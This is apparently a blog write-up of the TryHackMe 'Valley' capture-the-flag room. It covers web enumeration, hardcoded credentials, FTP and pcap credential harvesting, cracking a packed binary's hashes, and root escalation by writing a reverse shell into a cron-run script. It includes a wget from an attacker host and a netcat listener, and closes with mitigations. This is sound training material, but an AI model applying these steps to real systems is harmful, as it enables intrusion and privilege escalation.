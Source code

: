```yaml
---
title: "TryHackMe - Valley"
categories:
  - Blog
tags:
  - TryHackMe
  - CTF
---
```


This is a write-up for the [Valley](https://tryhackme.com/room/valleype) room on [TryHackMe](https://tryhackme.com/).

Let's jump right in!

# Reconnaissance
First, I performed an nmap scan of the target:
`$ nmap -A <TARGET IP>`

The results show two open ports:
- `22-ssh`
- `80-http`

Next, I ran:
`$ namp -A -p- <TARGET IP>`

I let that run while I did a walkthrough of the web application. 
- I was able to navigate to the following:
    - `/gallery/gallery.html`
        - Each picture in the gallery page opens from `/static/#`, where `#` is the picture's number. There are 18 pictures on the gallery page, numbered 1-18
    - `/pricing/pricing.html`

# Enumeration
Next I ran feroxbuster on the target to see if there are any other directories to be found:
`$ feroxbuster -u http://<TARGET IP> -w usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt`

The results of this scan showed:
- `/gallery` `/pricing` and `/static` all returned code `301`, indicating a redirect.
- `/pricing/note.txt`
    - Interesting...

Navigating to `http://<TARGET IP>/pricing/note.txt` we are shown a note from "RP" to "J," asking them to stop leaving notes randomly on the website.

Recalling that the `/static` directory was serving up the gallery photos, identifying them with a numeric value, let's try a different wordlist on this directory, using gobuster for simplicity:
`$ gobuster dir -u http://<TARGET IP>/static -w /usr/share/wordlists/wfuzz/general/big.txt`

This reveals all of the expected gallery pictures (1-18), as well as a page titled `00`.

Navigating to `http://<TARGET IP>/static/00` reveals:
```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```
Alright, another clue. Navigating to `http://<TARGET IP>/dev1243224123123` reveals a login page. Before getting ahead of myself, I decided to check for low hanging fruit. I checked the source of the page and navigated to `dev.js` from there. 

In the source of `dev.js` I found a username and password:
```
if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
```
# Access
I used these credentials to login and was brought to another note:
```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```
Now I checked the results of the `nmap -A -p-` command that I started way back, and found an `ftp` server running on port `37370`.

Drawing on the mention of reusing credentials, I tried to access the `ftp` server with the username and password I found:
`$ ftp <TARGET IP> 37370`

Access was granted and I found 3 `pcapng` files. I used the `get` command to download each file to my machine.

I opened each `pcapng` file in Wireshark, and scanned for anything interesting.
The `siemFTP.pcapng` file contains an Anonymous login to the `ftp` server. 
The `siemHTTP1.pcapng` file is mostly filled with TLS encrypted data. I filtered the data by `http` and did find some traffic in cleartext, but nothing of use. 
I filtered `siemHTTP2.pcapng` by `http` and noticed a `POST` request at packet 2335. After digging into this packet I found more credentials:
`"uname" = "valleyDev"`
`"psw" = "ph0t0s1234"`

I tried using these credentials on the web app login page, and the `ftp` server, but was not successful. So I then pivoted to port 22 running `ssh`:
`$ ssh valleyDev@<TARGET IP>`

Access granted!

Now that we have system access, let's find the first flag. It's right in the current user directory, so just `cat` it out:
`$ cat user.txt`

Now let's look around a bit more. I went back one directory level, to check for other users, and found a file: `valleyAuthenticator`

# Privilege Escalation: Horizontal
I ran `file` command on `valleyAuthenticator`:
`valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header`

I tried executing the file on the target, and was prompted to enter my username and password. I tried all credentials collected thus far, but could not find valid credentials.

I decided to copy the executable back to my local machine, for further analysis:
- End the ssh session, and use `scp` from my local machine
    - `$ scp valleyDev@<TARGET IP>:/home/valleyAuthenticator .`

Now that I have the executable on my machine, I first ran `strings` on it:
`$ strings valleyAuthenticator`

This reveals the string `UPX!` twice at the bottom. [UPX](https://upx.github.io/) is a packer for executibles, which may explain why `strings` returned only gibberish. So next I will unpack the file and try running strings again:
- `$ upx -d valleyAuthenticator`
- `$ strings valleyAuthenticator`
    - Now I am seeing actual human-readable strings, let's try to use `grep` to find any credentials, and I'll use `-B` and `-A` to see more context.
- `$ strings valleyAuthenticator | grep pass -B 10 -A 10`
    - This reveals two hashes that may correlate to the "Username" and "Password" fields below them:
        - `e6722920bab2326f8217e4bf6b1b58ac`
        - `dd2921cc76ee3abfd2beb60709056cfb`

After finding these hashes I turned to [CrackStation](https://crackstation.net/) to try and crack them. This revealed another set of credentials:
- `valley`
- `liberty123`

I tried accessing the system with these credentials over `ssh` and was granted access!

Now let's get `root`.

# Privilege Escalation: Vertical
First I tried running `sudo -l` to see if user `valley` can run anything as sudo, but unfortunately I do not have the ability.
Next, I turned to one of my favorite tools: [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Since I already have `linpeas.sh` on my machine, I navigated to the directory it is located in, and started a Python server on port 9999 using:
`$ python3 -m http.server 9999`

Then, on the target machine, I navigated to the `/tmp` directory, and downloaded `linpeas.sh`:
`$ wget <ATTACKER IP>:9999/linpeas.sh`

Next, I made it executable:
`$ chmod +x linpeas.sh`

And, then executed it:
`$ ./linpeas.sh`

LinPEAS often returns an overwhelming amount of data. Scanning through the results, I found that there is a cronjob running `/photos/script/photosEncrypt.py` every minute, and it is running it as `root`. Further, I have write permission to this script.
I used `nano` to figure out what this script is doing, and it appears to be encrypting any new photos on the system to Base64. 

The technique I will use will be to add a reverse shell to `photosEncrypt.py`. For the script, I used `Python3 Shortest` from [Reverse Shell Generator](https://www.revshells.com/).

Before adding this script to `photosEncrypt.py`, I started a listener on my local machine:
`nc -lvnp 8888`

With my listener running, I pasted the reverse shell into `photosEncrypt.py` and saved the file.

After about a minute, I was granted a shell as `root` on the system. I then navigated to `/root` and finally:
`$ cat root.txt`

# Conclusion
This was an interesting CTF. The engagement began easily enough, with "hidden" notes in a web application, to hard coded credentials, then escalated to more advanced concepts, like unpacking and analyzing executables.

## Suggested Mitigations
The most obvious mitigation for this organization would be to sanitize their web application, removing the notes, as well as the credentials hardcoded into `dev.js`. Beyond this, I would recommend revoking write permission `photosEncrypt.py` all users but `root`.